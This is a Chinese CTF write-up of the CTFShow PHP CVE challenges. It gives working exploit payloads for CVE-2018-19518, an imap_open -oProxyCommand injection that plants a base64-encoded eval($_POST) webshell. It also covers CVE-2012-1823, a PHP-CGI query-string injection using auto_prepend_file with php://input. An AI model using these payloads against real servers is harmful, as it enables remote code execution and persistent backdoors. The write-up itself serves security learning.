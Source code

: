 ```yaml
---
author: "Yiming Shen"
date: 2022-07-27
lastmod: 2022-07-28
title: "CTFShow web311-315 WP"
description: "PHP相关CVE知识"
tags: [
    "CTF",
    "WriteUP",
    "Web",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
typora-root-url: ..\..\..\..\static\
---
```


## Web311



## Web312

进入界面，一个邮箱登录页。题目提示就一个文件不用扫目录，从PHP版本入手直接找存在的CVE漏洞

![image-20220727150812771](https://s2.loli.net/2022/07/27/F5NEb1BoHSXz4mu.png)

![image-20220727151110852](https://s2.loli.net/2022/07/27/ikURMEv5m29GyPX.png)

进行尝试登录后，返回包中有PHP版本信息，用Wappalyzer即可读到，为PHP 5.6.38，查找该版本与邮件服务器IMAP/POP3相关的漏洞，发现漏洞CVE-2018-19518，与题目环境最为一致。

### CVE-2018-19518 PHP IMAP远程命令执行漏洞

![image-20220727162947576](https://s2.loli.net/2022/07/27/jBNXi9rPMRTnypJ.png)

>PHP IMAP远程命令执行漏洞 CVE-2018-19518
>
>PHP的`imap_open`函数会调用`rsh`来连接远程shell，在debian系Linux中默认使用`ssh`代替`rsh`功能，而在`ssh`命令中可以通过设置`-oProxyCommand=`来执行其他命令，因此可以通过注入该参数调用第三方命令。

### 满足条件

1. PHP版本=5.6.38
2. 使用`imap_open`函数进行邮件收发操作

### 复现

> 题目环境无回显，采用写入PHP脚本的方式执行命令

1. 将PHP马base64编码

```php
<?php eval($_POST[shell]);?>
    
IDw/cGhwIGV2YWwoJF9QT1NUW3NoZWxsXSk7Pz4=
```

2. 使用echo解码base64并在同目录下新建webshell文件

```shell
echo "IDw/cGhwIGV2YWwoJF9QT1NUW3NoZWxsXSk7Pz4=" | base64 -d >/var/www/html/test2.php
```

3. 将该命令base64编码，并再进行URL编码

```base64
ZWNobyAiSUR3L2NHaHdJR1YyWVd3b0pGOVFUMU5VVzNOb1pXeHNYU2s3UHo0PSIgfCBiYXNlNjQgLWQgPi92YXIvd3d3L2h0bWwvdGVzdDIucGhw
```

4. 将编码结果插入漏洞POC`x+-oProxyCommand%3decho%09编码结果|base64%09-d|sh}`中

```shell
x+-oProxyCommand%3decho%09ZWNobyAiSUR3L2NHaHdJR1YyWVd3b0pGOVFUMU5VVzNOb1pXeHNYU2s3UHo0PSIgfCBiYXNlNjQgLWQgPi92YXIvd3d3L2h0bWwvdGVzdDIucGhw|base64%09-d|sh}
```



![image-20220727162618714](https://s2.loli.net/2022/07/27/ARDCEgnj8pJBaZz.png)

执行后，即成功创建文件`test2.php`中，使用蚁剑连接，查看flag文件，拿到flag。

![image-20220727162401343](https://s2.loli.net/2022/07/27/nQkLZ2TahRO5mNC.png)

## Web313

进入题目环境，光秃秃的一个文字

![image-20220728093341901](https://s2.loli.net/2022/07/28/35M2BPSEyxleImH.png)

目录文件扫描等信息收集无果，查看PHP版本

![image-20220728093450397](https://s2.loli.net/2022/07/28/EZSbFqNAQvGfODC.png)

查找PHP5.4.1相关漏洞，考虑到出题环境，最好是能实现RCE的漏洞

![image-20220728093554449](https://s2.loli.net/2022/07/28/25NVH7wGOAasJmB.png)

### CVE-2012-1823 PHP-CGI远程代码执行漏洞

查找CVE-2012-1823漏洞详情及复现，NVD给出的解释如下

> sapi/cgi/cgi_main.c in PHP before 5.3.12 and 5.4.x before 5.4.2, when configured as a CGI script (aka php-cgi), does not properly handle query strings that lack an = (equals sign) character, which allows remote attackers to execute arbitrary code by placing command-line options in the query string, related to lack of skipping a certain php_getopt for the 'd' case.

简单的说，就是PHP-CGI直接将用户的请求（没有=）直接作为了PHP-CGI的参数执行，导致了远程代码执行。

深究一下漏洞的根源，需要了解一下PHP的运行模式与CGI。

PHP-CGI是一个sapi，作用是接收web容器通过fastcgi协议封装的数据，发送给PHP的解释器运行。PHP-CGI可以fork出一个子进程，让解释器执行这个文件，也可以将进程常驻后台，执行后返回结果。FPM也是类似的fastcgi管理器，是PHP在5.3版本后引入的，更为高效。

具体到该漏洞，则是由于该版本附近的PHP允许在web傻瓜下文中传入参数，结合RFC3875中的规定，在传参不包含没有解码的`=`时，将其作为cgi的参数传入，从而造成了远程代码执行。

### 满足条件

1. PHP版本早于5.3.12，以及PHP5.4.X版本早于5.4.2
2. 使用PHP-CGI管理器

### 复现

直接进行get传参，根据CGI模式的相关指令，可以直接利用`-s`显示文件源码，也可采用`-d`（指定配置项）配合`auto_prepend_file`+`PHP://input`伪协议，通过文件包含实现POST代码执行。

`-d+allow_url_include%3don+-d+auto_prepend_file%3dphp%3a//input`

`<?php echo eval("cat /somewhere/fla9.txt"); ?>`

POC:

![image-20220728100254352](https://s2.loli.net/2022/07/28/yUsnQuFv9SEg3j4.png)

拿到flag

## 参考

[1] [ctfshow phpCVE web311-web315 wp - 是Mumuzi](https://blog.csdn.net/qq_42880719/article/details/122513194)

[2] [PHP-CGI远程代码执行漏洞（CVE-2012-1823）分析 - PHIITHON](https://www.leavesongs.com/PENETRATION/php-cgi-cve-2012-1823.html)